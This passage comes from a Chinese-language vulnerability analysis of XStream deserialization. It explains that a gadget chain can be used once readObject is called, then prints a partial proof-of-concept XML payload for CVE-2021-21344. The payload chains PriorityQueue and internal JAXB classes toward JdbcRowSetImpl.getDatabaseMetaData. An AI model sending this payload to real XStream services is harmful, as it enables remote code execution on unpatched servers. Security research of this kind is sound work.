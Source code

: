 ![](_assets/1617677140000-5.png-w331s.png)

既然会调用readObject方法的话，那此时我们的思路应该就很清晰了，只需要找到一条利用链，就可以尝试进行反序列化攻击了

2\. CVE-2021-21344
------------------

下面是漏洞相关POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
```